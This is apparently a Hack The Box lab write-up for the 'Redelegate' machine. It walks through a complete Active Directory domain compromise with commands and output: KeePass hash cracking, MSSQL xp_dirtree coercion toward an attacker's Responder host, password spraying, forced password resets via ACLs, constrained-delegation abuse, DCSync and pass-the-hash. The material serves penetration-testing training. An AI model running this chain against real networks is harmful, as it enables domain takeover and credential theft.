




**Target:** `10.129.234.50`  
**Domain:** `redelegate.vl`  
**Date:** May 2026  
**Difficulty:** Medium  
**Platform:** Hackthebox

## Executive Summary

This report documents the full compromise of the `redelegate.vl` Active Directory domain. Initial access was obtained via an anonymous FTP server exposing a KeePass database file. Credentials extracted from the database were used to authenticate against domain services. Through a chain of ACL abuse and Kerberos delegation misconfiguration, full Domain Admin access was achieved via a constrained delegation attack using the `SeEnableDelegationPrivilege` privilege.

## Enumeration

### Port Scan
```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Postman]
└─$ sudo nmap -sC 10.129.234.50 -p- -Pn -vv -T4
PORT      STATE SERVICE          REASON
21/tcp    open  ftp              syn-ack ttl 127
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 10-20-24  01:11AM                  434 CyberAudit.txt
| 10-20-24  05:14AM                 2622 Shared.kdbx
|_10-20-24  01:26AM                  580 TrainingAgenda.txt
53/tcp    open  domain           syn-ack ttl 127
80/tcp    open  http             syn-ack ttl 127
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
3389/tcp  open  ms-wbt-server    syn-ack ttl 127
| rdp-ntlm-info: 
|   Target_Name: REDELEGATE
|   NetBIOS_Domain_Name: REDELEGATE
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: redelegate.vl
|   DNS_Computer_Name: dc.redelegate.vl
|   DNS_Tree_Name: redelegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-05-06T16:39:15+00:00
|_ssl-date: 2026-05-06T16:39:14+00:00; +1m52s from scanner time.
| ssl-cert: Subject: commonName=dc.redelegate.vl
| Issuer: commonName=dc.redelegate.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-05-05T16:37:20
| Not valid after:  2026-11-04T16:37:20
| MD5:     71f3 7de8 fc96 b270 e7e1 44b8 cabe 71c0
| SHA-1:   8d4d 754b 6768 0902 f18f 67cd 3894 81e5 043d 5ce4
| SHA-256: 4069 3619 e1b9 2685 c2d2 36e9 efc0 a16c 5cb2 09ed db63 d304 8c20 300b 8666 4e10
| -----BEGIN CERTIFICATE-----
|_-----END CERTIFICATE-----
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49665/tcp open  unknown          syn-ack ttl 127
49666/tcp open  unknown          syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49669/tcp open  unknown          syn-ack ttl 127
63837/tcp open  unknown          syn-ack ttl 127
63838/tcp open  unknown          syn-ack ttl 127
63839/tcp open  unknown          syn-ack ttl 127
63842/tcp open  unknown          syn-ack ttl 127
63854/tcp open  unknown          syn-ack ttl 127
64283/tcp open  unknown          syn-ack ttl 127

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 41886/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 42453/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 15429/udp): CLEAN (Timeout)
|   Check 4 (port 54190/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 1m52s, deviation: 0s, median: 1m52s
| smb2-time: 
|   date: 2026-05-06T16:39:16
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 17:40
Completed NSE at 17:40, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 17:40
Completed NSE at 17:40, 0.00s elapsed
Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 200.91 seconds
           Raw packets sent: 65716 (2.892MB) | Rcvd: 65535 (2.622MB)


```

| Port      | State | Service              | Notes                    |
| --------- | ----- | -------------------- | ------------------------ |
| 21        | Open  | FTP (Microsoft ftpd) | Anonymous login allowed  |
| 53        | Open  | DNS                  | Domain controller        |
| 80        | Open  | HTTP (IIS)           | Default IIS page         |
| 88        | Open  | Kerberos             | AD environment confirmed |
| 135       | Open  | MSRPC                |                          |
| 139/445   | Open  | SMB                  | Signing required         |
| 389/636   | Open  | LDAP/LDAPS           |                          |
| 1433      | Open  | MSSQL                | SQL Server Express       |
| 3268/3269 | Open  | Global Catalog       |                          |
| 3389      | Open  | RDP                  |                          |
| 5985      | Open  | WinRM                | Remote management        |
## FTP Anonymus login - Allowed

```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Postman]
└─$ sudo nmap -sV -p21 -sC -A 10.129.234.50
Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-06 17:44 +0100
Nmap scan report for 10.129.234.50
Host is up (0.048s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 10-20-24  01:11AM                  434 CyberAudit.txt
| 10-20-24  05:14AM                 2622 Shared.kdbx
|_10-20-24  01:26AM                  580 TrainingAgenda.txt
```



Three files discovered:
**CyberAudit.txt** - October 2024 audit findings:
- Weak User Passwords
- Excessive Privilege assigned to users
- Unused Active Directory objects
- Dangerous Active Directory ACLs

## Initial Access

### Cracking the KeePass Database

The training agenda revealed users were using `SeasonYear!` as a password pattern. A custom wordlist was generated:

```bash
cat > /tmp/gen.py << 'EOF'
seasons = ['Spring', 'Summer', 'Autumn', 'Winter', 'Fall']
months = ['January','February','March','April','May','June',
          'July','August','September','October','November','December']
years = ['2022','2023','2024','2025']
suffixes = ['!','@','#','1','123','']

for word in seasons + months:
    for year in years:
        for suffix in suffixes:
            print(f'{word}{year}{suffix}')
EOF

python3 /tmp/gen.py > /tmp/seasonal.txt
```

Hash extracted and cracked:

```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ keepass2john shared.kdbx > keepass_clean.hash
```

```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ hashcat keepass_clean.hash /tmp/seasonal.txt --user -m 13400
```

`Fall2024!`
### KeePass Database Contents



| Title      | Username        | Password             |
| ---------- | --------------- | -------------------- |
| WEB01      | WordPress Panel | cn4KOEgsHqvKXPjEnSD9 |
| SQL Guest  | SQLGuest        | zDPBpaF4FywlqIv11vii |
| FTP        | FTPUser         | SguPZBKdRyxWzvXRWy6U |
| FS01 Admin | Administrator   | Spdv41gg4BlBgSYIW1gF |
| Payroll    | Payroll         | cVkqz4bCM7kJRSNlgx2G |

### MSSQL Access

All KeePass credentials failed against SMB/WinRM  these were service account labels, not domain usernames. However, `SQLGuest` authenticated successfully against MSSQL:

```bash

┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ crackmapexec smb 10.129.234.50 -u Administrator -p 'Spdv41gg4BlBgSYIW1gF'
crackmapexec smb 10.129.234.50 -u SQLGuest -p 'zDPBpaF4FywlqIv11vii'
crackmapexec smb 10.129.234.50 -u FTPUser -p 'SguPZBKdRyxWzvXRWy6U'
```

Test winrm access 
```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ crackmapexec winrm 10.129.234.50 -u Administrator -p 'Spdv41gg4BlBgSYIW1gF'
crackmapexec winrm 10.129.234.50 -u SQLGuest -p 'zDPBpaF4FywlqIv11vii'

```
 
 MSSQL access using impacket 
```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ impacket-mssqlclient 'SQLGuest:zDPBpaF4FywlqIv11vii@10.129.234.50'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

```

Limited guest permissions `xp_cmdshell` denied. However `xp_dirtree` was publicly executable:

```bash
SQL (SQLGuest  guest@master)> ls
ERROR(DC\SQLEXPRESS): Line 1: Could not find stored procedure 'ls'.
SQL (SQLGuest  guest@master)> SELECT SYSTEM_USER;
           
--------   
SQLGuest   
SQL (SQLGuest  guest@master)> SELECT name FROM sys.databases;
name     
------   
master   
tempdb   
model    
msdb     
SQL (SQLGuest  guest@master)> EXEC xp_cmdshell 'whoami';
ERROR(DC\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
SQL (SQLGuest  guest@master)> 
```

This triggered an NTLM authentication to the attacker's Responder listener, capturing the `sql_svc` NTLMv2 hash. The hash could not be cracked.

`Terminal 1`
```bash
sudo responder -I tun0 -v
```

Inside the mssql 
`Terminal 2`
```sql
EXEC xp_dirtree '\\10.10.16.99\share', 1, 1;
```

### Domain User Enumeration via MSSQL



Lets start making an  wordlist for both username and password to open an services

```bash
cat << 'EOF' > /tmp/passwords.txt
cn4KOEgsHqvKXPjEnSD9
zDPBpaF4FywlqIv11vii
SguPZBKdRyxWzvXRWy6U
Spdv41gg4BlBgSYIW1gF
cVkqz4bCM7kJRSNlgx2G
Fall2024!
EOF
```

Domain users discovered from metasploit module can be used for password brute forcing 

```bash
cat << 'EOF' > /tmp/users.txt
Christine.Flanders
Marie.Curie
Helen.Frost
Michael.Pontiac
Mallory.Roberts
James.Dinkleberg
Ryan.Cooper
sql_svc
Administrator
EOF
```

Brute forcing SMB share
```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ crackmapexec smb 10.129.234.50 -u /tmp/users.txt -p /tmp/passwords.txt --continue-on-success 2>/dev/null | grep -v FAILURE

SMB                      10.129.234.50   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:False)
SMB                      10.129.234.50   445    DC               [+] redelegate.vl\Marie.Curie:Fall2024! 

```

```bash
──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ crackmapexec winrm 10.129.234.50 -u /tmp/users.txt -p /tmp/passwords.txt --continue-on-success 2>/dev/null | grep -v FAILURE

```
**Hit:** `redelegate.vl\Marie.Curie:Fall2024!`  SMB access only, no WinRM

Nothing on Marie smb

```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ smbmap -H 10.129.234.50 -u "Marie.Curie" -p "Fall2024!" -r
```


## Lateral Movement
### Running BloodHound to map AD attack paths

```bash
──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ bloodhound-python -u 'Marie.Curie' -p 'Fall2024!' -d redelegate.vl -ns 10.129.234.50 -c all
```



From bloodhound its evident that mari has forcechange password privelege on  HELPDESK@REDELEGATE.VL  group

so lets change the password using BloodyAD BEFORE that we need find an user on the helpdesk group to change the password

```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound-linux-x64]
└─$ ldapsearch -x -H ldap://10.129.234.50 -D "Marie.Curie@redelegate.vl" -w 'Fall2024!' -b "DC=redelegate,DC=vl" -s sub "(&(objectclass=user)(memberof=CN=HELPDESK,CN=USERS,DC=REDELEGATE,DC=VL))" sAMAccountName
# extended LDIF
#
# LDAPv3
# base <DC=redelegate,DC=vl> with scope subtree
# filter: (&(objectclass=user)(memberof=CN=HELPDESK,CN=USERS,DC=REDELEGATE,DC=VL))
# requesting: sAMAccountName 
#

# Marie.Curie, Users, redelegate.vl
dn: CN=Marie.Curie,CN=Users,DC=redelegate,DC=vl
sAMAccountName: Marie.Curie

# Michael.Pontiac, Users, redelegate.vl
dn: CN=Michael.Pontiac,CN=Users,DC=redelegate,DC=vl
sAMAccountName: Michael.Pontiac

# search reference
ref: ldap://ForestDnsZones.redelegate.vl/DC=ForestDnsZones,DC=redelegate,DC=vl

# search reference
ref: ldap://DomainDnsZones.redelegate.vl/DC=DomainDnsZones,DC=redelegate,DC=vl

# search reference
ref: ldap://redelegate.vl/CN=Configuration,DC=redelegate,DC=vl

# search result
search: 2
result: 0 Success

# numResponses: 6
# numEntries: 2
# numReferences: 3
```

Lets change michael password 

```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound-linux-x64]
└─$ bloodyAD --host 10.129.234.50 -d "redelegate.vl" -u "Marie.Curie" -p "Fall2024!" set password "Michael.Pontiac" "Password@123!"
[+] Password changed successfully!
```

Micheal has an access to smb not winrm
```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound-linux-x64]
└─$ crackmapexec smb 10.129.234.50 -u 'Michael.Pontiac' -p 'Password@123!'
SMB         10.129.234.50   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:redelegate.vl) (signing:True) (SMBv1:False)
SMB         10.129.234.50   445    DC               [+] redelegate.vl\Michael.Pontiac:Password@123! 

```

```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound-linux-x64]
└─$ crackmapexec winrm 10.129.234.50 -u 'Michael.Pontiac' -p 'Password@123!'
SMB         10.129.234.50   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
HTTP        10.129.234.50   5985   DC               [*] http://10.129.234.50:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.234.50   5985   DC               [-] redelegate.vl\Michael.Pontiac:Password@123!

```

Nothing specifc on smb as well

```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound-linux-x64]
└─$ smbmap -H 10.129.234.50 -u 'Michael.Pontiac' -p 'Password@123!' -r
```

Thats dead end on further enumeration of marie we can see that mari has write permission over helen
```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound-linux-x64]
└─$ bloodyAD --host 10.129.234.50 -d "redelegate.vl" -u "Marie.Curie" -p "Fall2024!" get writable

distinguishedName: CN=Guest,CN=Users,DC=redelegate,DC=vl
permission: WRITE

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=redelegate,DC=vl
permission: WRITE

distinguishedName: CN=Christine.Flanders,CN=Users,DC=redelegate,DC=vl
permission: WRITE

distinguishedName: CN=Marie.Curie,CN=Users,DC=redelegate,DC=vl
permission: WRITE

distinguishedName: CN=Helen.Frost,CN=Users,DC=redelegate,DC=vl
permission: WRITE

distinguishedName: CN=Michael.Pontiac,CN=Users,DC=redelegate,DC=vl
permission: WRITE

distinguishedName: CN=James.Dinkleberg,CN=Users,DC=redelegate,DC=vl
permission: WRITE

distinguishedName: CN=sql_svc,CN=Users,DC=redelegate,DC=vl
permission: WRITE

```

```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound-linux-x64]
└─$ bloodyAD --host 10.129.234.50 -d "redelegate.vl" -u "Marie.Curie" -p "Fall2024!" set password "Helen.Frost" "Password@123!"
[+] Password changed successfully!
```

`Helen.Frost` is a member of the `IT` group with WinRM access

```bash
┌──(penguin㉿0X0F)-[~/Downloads/BloodHound-linux-x64]
└─$ crackmapexec winrm 10.129.234.50 -u 'Helen.Frost' -p 'Password@123!'
SMB         10.129.234.50   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl)
HTTP        10.129.234.50   5985   DC               [*] http://10.129.234.50:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.129.234.50   5985   DC               [+] redelegate.vl\Helen.Frost:Password@123! (Pwn3d!)                                            
```
 
 Evil -winrm access Capture the flag of the user
```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ evil-winrm -i 10.129.234.50 -u "Helen.Frost" -p Password@123!
```

## Privilege Escalation

### SeEnableDelegationPrivilege

```bash
*Evil-WinRM* PS C:\Users\Helen.Frost\dESKTOP> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                                    State
============================= ============================================================== =======
SeMachineAccountPrivilege     Add workstations to domain                                     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                                       Enabled
SeEnableDelegationPrivilege   Enable computer and user accounts to be trusted for delegation Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                                 Enabled
*Evil-WinRM* PS C:\Users\Helen.Frost\dESKTOP> 

```


`SeEnableDelegationPrivilege` (Enable computer and user accounts to be trusted for delegation) is a highly sensitive Windows user right that allows an attacker to configure Active Directory accounts to impersonate other users, leading to widespread domain privilege escalation. 

### Delegation Enumeration

```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ impacket-findDelegation redelegate.vl/Marie.Curie:'Fall2024!' -dc-ip 10.129.234.50
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

AccountName      AccountType  DelegationType                      DelegationRightsTo     SPN Exists 
---------------  -----------  ----------------------------------  ---------------------  ----------
DC$              Computer     Unconstrained                       N/A                    Yes        
Michael.Pontiac  Person       Resource-Based Constrained          FS01$                  No         
FS01$            Computer     Constrained w/ Protocol Transition  cifs/dc.redelegate.vl  No       
```
**Key finding:** `FS01$` computer account has WRITE permissions delegated to `Helen.Frost`.
```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ bloodyAD --host 10.129.234.50 -d "redelegate.vl" -u "Helen.Frost" -p "Password@123!" get writable --otype COMPUTER

distinguishedName: CN=FS01,CN=Computers,DC=redelegate,DC=vl
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
```

### Constrained Delegation Attack (S4U2Self + S4U2Proxy)

 Step 1 - Get Helen.Frost's TGT
```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ impacket-getTGT redelegate.vl/Helen.Frost:'Password@123!' -dc-ip 10.129.234.50
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Helen.Frost.ccache

┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ export KRB5CCNAME=Helen.Frost.ccache
```

**Step 2** - Change FS01$ password
```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ bloodyAD -d redelegate.vl -k --host "dc.redelegate.vl" set password "FS01$" 'Password1!'
[+] Password changed successfully!
```

**step 3** -  Set Protocol Transition flag on FS01$
```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ bloodyAD -d redelegate.vl -k --host "dc.redelegate.vl" add uac FS01$ -f TRUSTED_TO_AUTH_FOR_DELEGATION
[-] ['TRUSTED_TO_AUTH_FOR_DELEGATION'] property flags added to FS01$'s userAccountControl

```
This sets `TRUSTED_TO_AUTH_FOR_DELEGATION`  tells Kerberos that FS01$ can request tickets **on behalf of any user without knowing their password** (S4U2Self

**Step 4** - Set constrained delegation target on FS01$
```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ bloodyAD -d redelegate.vl -k --host "dc.redelegate.vl" set object FS01$ msDS-AllowedToDelegateTo -v 'cifs/dc.redelegate.vl'
[+] FS01$'s msDS-AllowedToDelegateTo has been updated

```

Getting an service ticket for impersonating dc
```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ impacket-getST redelegate.vl/FS01\$:'Password1!' -spn cifs/dc.redelegate.vl -impersonate dc -dc-ip 10.129.234.50
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating dc
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in dc@cifs_dc.redelegate.vl@REDELEGATE.VL.ccache

```

**Step 6** - Set the ticket and DCSync!

```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ export KRB5CCNAME=dc@cifs_dc.redelegate.vl@REDELEGATE.VL.ccache

┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ impacket-secretsdump -k dc.redelegate.vl -just-dc-user Administrator -no-pass
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ec17f7a2a4d96e177bfd101b94ffc0a7:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:db3a850aa5ede4cfacb57490d9b789b1ca0802ae11e09db5f117c1a8d1ccd173
Administrator:aes128-cts-hmac-sha1-96:b4fb863396f4c7a91c49ba0c0637a3ac
Administrator:des-cbc-md5:102f86737c3e9b2f
[*] Cleaning up...
```

Login as Administrator with the hash!
```bash
┌──(penguin㉿0X0F)-[~/CPTS/CPTS official Pathway/Redelegate]
└─$ evil-winrm -i 10.129.234.50 -u Administrator -H ec17f7a2a4d96e177bfd101b94ffc0a7 
```

## Attack Chain Summary

```
Anonymous FTP
└─ Shared.kdbx (binary mode download)
└─ Fall2024! (seasonal wordlist crack)
└─ KeePass credentials
└─ SQLGuest → MSSQL access
└─ xp_dirtree → domain user enumeration
└─ Password spray → Marie.Curie:Fall2024!
└─ BloodHound → ForceChangePassword on Helpdesk
└─ Michael.Pontiac (SMB only)
└─ WRITE on Helen.Frost
└─ Helen.Frost (WinRM + SeEnableDelegationPrivilege)
└─ WRITE on FS01$
└─ Configure Constrained Delegation
└─ S4U2Self + S4U2Proxy → dc$
└─ DCSync → Administrator hash
└─ DOMAIN ADMIN 
```

